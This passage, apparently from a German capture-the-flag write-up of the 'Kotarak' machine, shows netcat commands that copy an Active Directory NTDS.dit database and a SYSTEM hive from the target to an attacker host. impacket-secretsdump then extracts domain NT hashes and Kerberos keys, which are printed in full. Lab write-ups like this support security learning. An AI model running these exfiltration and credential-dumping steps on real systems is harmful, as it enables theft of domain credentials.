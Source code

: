 ```shell
tomcat@kotarak-dmz:/home$ cd tomcat/to_archive/pentest_data
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ file *
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit: data
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above

root@kali:~# mkdir kotarak

root@kali:~# cd kotarak/

root@kali:~/kotarak# nc -lnvp 4445 > SYSTEM

tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ nc 10.10.15.158 < 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin

root@kali:~/kotarak# nc -lnvp 4445 > ntds.dit

tocat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ nc 10.10.15.158 < 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
```

Bei den beiden Dateien handelt es sich um **NTDS.dit**, welche eine Datenbank ist die Informationen zur Active Directory beinhält, und um eine Kopie des **SYSTEM Registry Hives**!

Mit Hilfe von dem Skript **secretsdump** von der **Impacket** Skript-Sammlung können wir bei Eingabe der beiden Dateien alle NT-Hashes extrahieren!

```shell
root@kali:~/kotarak# impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
```